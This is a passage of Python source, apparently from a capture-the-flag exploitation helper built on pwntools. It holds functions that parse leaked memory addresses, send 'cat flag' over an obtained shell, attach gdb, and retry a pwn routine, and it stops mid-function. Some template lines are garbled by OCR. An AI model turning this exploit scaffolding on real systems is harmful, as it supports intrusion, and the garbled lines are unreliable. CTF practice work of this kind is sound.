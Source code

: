 ```
def get_address(sh, libc=False, info=None, start_string=None, address_len=None, end_string=None, offset=None,
                int_mode=False):
    if start_string != None:
        sh.recvuntil(start_string)
    if libc == True:
        return_address = u64(sh.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
    elif int_mode:
        return_address = int(sh.recvuntil(end_string, drop=True), 16)
    elif address_len != None:
        return_address = u64(sh.recv()[:address_len].ljust(8, '\x00'))
    elif context.arch == 'amd64':
        return_address = u64(sh.recvuntil(end_string, drop=True).ljust(8, '\x00'))
    else:
        return_address = u32(sh.recvuntil(end_string, drop=True).ljust(4, '\x00'))
    if offset != None:
        return_address = return_address + offset
    if info != None:
        log.success(info + str(hex(return_address)))
    return return_address


def get_flag(sh):
    sh.recvrepeat(0.1)
    sh.sendline('cat flag')
    return sh.recvrepeat(0.3)


def get_gdb(sh, gdbscript=None, addr=0, stop=False):
    if args['REMOTE']:
        return
    if gdbscript is not None:
        gdb.attach(sh, gdbscript=gdbscript)
    elif addr is not None:
        text_base = int(os.popen("pmap `{``}`| awk '`{``{`print $1`}``}`'".format(sh.pid)).readlines()[1], 16)
        log.success("breakpoint_addr --&gt; " + hex(text_base + addr))
        gdb.attach(sh, 'b *`{``}`'.format(hex(text_base + addr)))
    else:
        gdb.attach(sh)
    if stop:
        raw_input()


def Attack(target=None, sh=None, elf=None, libc=None):
    if sh is None:
        from Class.Target import Target
        assert target is not None
        assert isinstance(target, Target)
        sh = target.sh
        elf = target.elf
        libc = target.libc
    assert isinstance(elf, ELF)
    assert isinstance(libc, ELF)
    try_count = 0
    while try_count &lt; 3:
        try_count += 1
        try:
            pwn(sh, elf, libc)
            break
        except KeyboardInterrupt:
            break
        except EOFError:
```